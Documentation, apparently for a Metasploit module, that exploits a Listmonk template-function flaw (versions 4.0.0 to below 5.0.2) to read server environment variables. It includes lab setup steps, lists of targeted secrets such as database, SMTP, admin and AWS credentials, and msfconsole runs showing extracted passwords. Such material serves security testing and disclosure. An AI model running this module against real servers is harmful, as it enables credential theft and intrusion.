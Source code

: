 ## Vulnerable Application

This module exploits insecure Sprig template functions in Listmonk versions >= v4.0.0 and < v5.0.2.
The `env` and `expandenv` functions are enabled by default in campaign templates, allowing
authenticated users with minimal campaign permissions to extract sensitive environment variables
through the campaign preview functionality.

Listmonk is a self-hosted newsletter and mailing list manager. Environment variables in
Listmonk deployments often contain sensitive information such as database credentials,
SMTP passwords, API keys, and admin credentials.

### Required Privileges

For this exploit to work, the authenticated user must have the following privileges:
- `campaigns:get` - Permission to get and view campaigns belonging to permitted lists
- `campaigns:get_all` - Permission to get and view campaigns across all lists

These are minimal privileges that can be assigned to non-admin users in multi-user Listmonk
installations, making this vulnerability particularly dangerous as it allows privilege escalation
through environment variable disclosure.

#### Docker Installation (Vulnerable Version)

To install the vulnerable version, run the following command :

```
curl -LO https://github.com/knadh/listmonk/raw/master/docker-compose.yml
sed -i 's|image: listmonk/listmonk:latest|image: listmonk/listmonk:v5.0.1|' docker-compose.yml
docker compose up
```

#### Vulnerable Versions

- Listmonk >= v4.0.0 and < v5.0.2

#### Patched Versions

- Listmonk >= v5.0.2

## Verification Steps

1. Start msfconsole
2. Do: `use auxiliary/gather/listmonk_env_disclosure`
3. Do: `set RHOSTS [target]`
4. Do: `set USERNAME [username]`
5. Do: `set PASSWORD [password]`
6. Optional: `set ENVVAR [comma-separated environment variables]`
7. Do: `run`
8. You should see extracted environment variable values

## Options

### USERNAME

The Listmonk username for authentication. This must be a valid user account with
the required `campaigns:get` and `campaigns:get_all` permissions.

### PASSWORD

The Listmonk password for authentication.

### ENVVAR

A comma-separated list of environment variable names to extract. If not specified,
the module will automatically attempt to extract a default list of common sensitive
environment variables.

### Default variables extracted (when ENVVAR is not set):
- `LISTMONK_db__host` - Database host
- `LISTMONK_db__port` - Database port
- `LISTMONK_db__user` - Database username
- `LISTMONK_db__password` - Database password
- `LISTMONK_db__database` - Database name
- `LISTMONK_app__address` - Application address

### Examples of custom variables to target:
- `LISTMONK_app__admin_username`, `LISTMONK_app__admin_password` - Admin credentials
- `SMTP_HOST`, `SMTP_PORT`, `SMTP_USER`, `SMTP_PASSWORD` - Email server credentials
- `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` - Cloud provider credentials
- `DATABASE_URL`, `REDIS_URL` - Connection strings
- `SECRET_KEY`, `API_KEY` - Application secrets
- `PATH`, `HOME`, `USER` - System environment variables

### CAMPAIGN_NAME

Optional campaign name to use for the temporary campaign created during extraction.
If not specified, a random name will be generated to avoid collisions when running
the module multiple times. The campaign is automatically deleted after extraction.

## Scenarios

### Running Check to Verify Target is Vulnerable

```
msf6 auxiliary(gather/listmonk_env_disclosure) > set RHOSTS 192.168.1.100
RHOSTS => 192.168.1.100
msf6 auxiliary(gather/listmonk_env_disclosure) > set USERNAME admin
USERNAME => admin
msf6 auxiliary(gather/listmonk_env_disclosure) > set PASSWORD adminadmin
PASSWORD => adminadmin
msf6 auxiliary(gather/listmonk_env_disclosure) > check

[*] 192.168.1.100:9000 - The target appears to be vulnerable. Listmonk version 5.0.1 is vulnerable
```

### Extract Default Environment Variables

Running the module without specifying ENVVAR will automatically extract the default
list of common Listmonk environment variables:

```
msf6 > use auxiliary/gather/listmonk_env_disclosure
msf6 auxiliary(gather/listmonk_env_disclosure) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(gather/listmonk_env_disclosure) > set USERNAME admin
USERNAME => admin
msf6 auxiliary(gather/listmonk_env_disclosure) > set PASSWORD adminadmin
PASSWORD => adminadmin
msf6 auxiliary(gather/listmonk_env_disclosure) > run

[*] Running module against 127.0.0.1
[*] Targeting http://127.0.0.1:9000/
[+] Login successful
[*] Using default environment variable list (6 variables)
[*] Executing template to extract environment variables...
[+] Environment variable(s) extracted:

LISTMONK_db__host: localhost
LISTMONK_db__port: 5432
LISTMONK_db__user: listmonk_user
LISTMONK_db__password: my_secure_db_password123
LISTMONK_db__database: listmonk
LISTMONK_app__address: 0.0.0.0:9000

[*] Auxiliary module execution completed
```

### Extract Specific Environment Variables

You can target specific environment variables by providing a comma-separated list:

```
msf6 auxiliary(gather/listmonk_env_disclosure) > set ENVVAR LISTMONK_db__password,LISTMONK_app__admin_password,SMTP_PASSWORD
ENVVAR => LISTMONK_db__password,LISTMONK_app__admin_password,SMTP_PASSWORD
msf6 auxiliary(gather/listmonk_env_disclosure) > run

[*] Running module against 127.0.0.1
[*] Targeting http://127.0.0.1:9000/
[+] Login successful
[*] Targeting specific environment variables: LISTMONK_db__password, LISTMONK_app__admin_password, SMTP_PASSWORD
[*] Executing template to extract environment variables...
[+] Environment variable(s) extracted:

LISTMONK_db__password: my_secure_db_password123
LISTMONK_app__admin_password: admin_secret_password
SMTP_PASSWORD: smtp_pass_2024

[*] Auxiliary module execution completed
```

### Extract Single Environment Variable

```
msf6 auxiliary(gather/listmonk_env_disclosure) > set ENVVAR PATH
ENVVAR => PATH
msf6 auxiliary(gather/listmonk_env_disclosure) > run

[*] Running module against 127.0.0.1
[*] Targeting http://127.0.0.1:9000/
[+] Login successful
[*] Targeting specific environment variables: PATH
[*] Executing template to extract environment variables...
[+] Environment variable(s) extracted:

PATH: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

[*] Auxiliary module execution completed
```
